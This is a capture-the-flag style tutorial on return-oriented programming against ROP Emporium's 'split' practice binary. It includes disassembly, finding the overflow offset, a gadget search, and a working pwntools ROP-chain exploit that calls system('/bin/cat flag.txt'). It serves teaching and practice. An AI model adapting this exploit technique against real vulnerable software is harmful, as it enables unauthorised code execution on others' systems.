 # Return Oriented Programming


ROP is a technique used to bypass the non-executable stack while using the available gadgets from the associated binaries i.e. opcodes ending with `ret`. See "tools". 

> `split` - 64bit binary from ROP Emporium is used to demonstrate the ROP technqiue.

First off, we need to check the protections enabled on binary.

```r
robin@oracle:~/ROP-Emporium$ gdb-gef -q split
Reading symbols from split...(no debugging symbols found)...done.
GEF for linux ready, type `gef' to start, `gef config' to configure
79 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 1 command could not be loaded, run `gef missing` to know why.
gef➤  checksec
[+] checksec for '/home/robin/ROP-Emporium/split'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
gef➤  
```

It has `NX` enabled which means we ca't use shellcode, we will use Return Oriented Programming technique to get a shell. Let's reverse engineer it first:-

Using `radare2` first:-

```r
robin@oracle:~/ROP-Emporium$ r2 -AAAA split
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Emulate code to find computed references (aae)
[x] Analyze consecutive function (aat)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Type matching analysis for all functions (afta)
[0x00400650]> afl
0x00400000    2 64           fcn.rip
0x00400041    1 7            fcn.00400041
0x00400048    1 164          fcn.00400048
0x004005a0    3 26           sym._init
0x004005d0    1 6            sym.imp.puts
0x004005e0    1 6            sym.imp.system
0x004005f0    1 6            sym.imp.printf
0x00400600    1 6            sym.imp.memset
0x00400610    1 6            sym.imp.__libc_start_main
0x00400620    1 6            sym.imp.fgets
0x00400630    1 6            sym.imp.setvbuf
0x00400640    1 6            sub.__gmon_start___248_640
0x00400650    1 41           entry0
0x00400680    4 50   -> 41   sym.deregister_tm_clones
0x004006c0    3 53           sym.register_tm_clones
0x00400700    3 28           sym.__do_global_dtors_aux
0x00400720    4 38   -> 35   entry1.init
0x00400746    1 111          sym.main
0x004007b5    1 82           sym.pwnme
0x00400807    1 17           sym.usefulFunction
0x00400820    4 101          sym.__libc_csu_init
0x00400890    1 2            sym.__libc_csu_fini
0x00400894    1 9            sym._fini
[0x00400650]> pdf @sym.pwnme
/ (fcn) sym.pwnme 82
|   sym.pwnme ();
|           ; var int local_20h @ rbp-0x20
|              ; CALL XREF from 0x0040079f (sym.main)
|           0x004007b5      55             push rbp
|           0x004007b6      4889e5         mov rbp, rsp
|           0x004007b9      4883ec20       sub rsp, 0x20
|           0x004007bd      488d45e0       lea rax, qword [local_20h]
|           0x004007c1      ba20000000     mov edx, 0x20               ; 32 ; size_t n
|           0x004007c6      be00000000     mov esi, 0                  ; int c
|           0x004007cb      4889c7         mov rdi, rax                ; void *s
|           0x004007ce      e82dfeffff     call sym.imp.memset         ; void *memset(void *s, int c, size_t n)
|           0x004007d3      bfd0084000     mov edi, str.Contriving_a_reason_to_ask_user_for_data... ; 0x4008d0 ; "Contriving a reason to ask user for data..." ; const char * s
|           0x004007d8      e8f3fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x004007dd      bffc084000     mov edi, 0x4008fc           ; const char * format
|           0x004007e2      b800000000     mov eax, 0
|           0x004007e7      e804feffff     call sym.imp.printf         ; int printf(const char *format)
|           0x004007ec      488b159d0820.  mov rdx, qword [obj.stdin]  ; [0x601090:8]=0 ; FILE *stream
|           0x004007f3      488d45e0       lea rax, qword [local_20h]
|           0x004007f7      be60000000     mov esi, 0x60               ; '`' ; 96 ; int size
|           0x004007fc      4889c7         mov rdi, rax                ; char *s
|           0x004007ff      e81cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x00400804      90             nop
|           0x00400805      c9             leave
\           0x00400806      c3             ret
[0x00400650]> pdf @sym.usefulFunction
/ (fcn) sym.usefulFunction 17
|   sym.usefulFunction ();
|           0x00400807      55             push rbp
|           0x00400808      4889e5         mov rbp, rsp
|           0x0040080b      bfff084000     mov edi, str.bin_ls         ; 0x4008ff ; "/bin/ls" ; const char * string
|           0x00400810      e8cbfdffff     call sym.imp.system         ; int system(const char *string)
|           0x00400815      90             nop
|           0x00400816      5d             pop rbp
\           0x00400817      c3             ret
[0x00400650]> izzq~sh
0x11 10 9 .shstrtab
0x44 10 9 .gnu.hash
[0x00400650]> izzq~cat
0x601060 18 17 /bin/cat flag.txt
[0x00400650]> 
```

>izzq~<str> is used to find the address of a specific string in that ELF.

As this is X86-64 bit binary, according to calling convention of x86-64 the arguments provided into the function as parameter is stored in register. The first argument is stored in `rdi`, I'd recommend reading on calling convention.

So, let's find the buffer offset, shall we?

```r
robin@oracle:~/ROP-Emporium$ gdb-gef -q split
Reading symbols from split...(no debugging symbols found)...done.
GEF for linux ready, type `gef' to start, `gef config' to configure
79 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 1 command could not be loaded, run `gef missing` to know why.
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /home/robin/ROP-Emporium/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.


-- snip --


──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "split", stopped, reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400806 → pwnme()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x0000000000400806 in pwnme ()
gef➤  pattern search faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala
[+] Searching 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala'
[+] Found at offset 40 (big-endian search) 
gef➤  
```
Ah, easier than manual find.

So, let's find a gadget as we already know that `/bin/cat flag.txt` and the symbol `system` is present let's find the `pop rdi; ret;` so the string would be provided to system for execution.
Ropper to the rescue:-

```s
robin@oracle:~/ROP-Emporium$ ropper --file split --search 'pop rdi'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x0000000000400883: pop rdi; ret; 
```

Now, our payload would be `padding + pop_rdi + bin_cat + system`, breaking it down:-

First `padding` offset to the stack pointer, now the gadget `pop rdi; ret;` as the `/bin/cat flag.txt` will be stored in rdi register we will just provide the `system` address and we are done.

Let's craft the exploit:-

```python
from pwn import *

p = process("./split")

payload = "A"*40  # padding 
payload += p64(0x400883) # pop_rdi
payload += p64(0x601060) # /bin/cat flag.txt
payload += p64(0x400810) # system

p.recvuntil(">") # This will recieve wait we reach this
p.sendline(payload) # Sending the payload afterwards as input
p.interactive()
```

```s
robin@oracle:~/ROP-Emporium$ echo "We got it" > flag.txt
robin@oracle:~/ROP-Emporium$ python split_exploit.py 
[+] Starting local process './split': pid 12495
[*] Switching to interactive mode
 We got it
[*] Got EOF while reading in interactive
$ 
[*] Process './split' stopped with exit code -11 (SIGSEGV) (pid 12495)
[*] Got EOF while sending in interactive
robin@oracle:~/ROP-Emporium$ 
```

Poof, we got it.

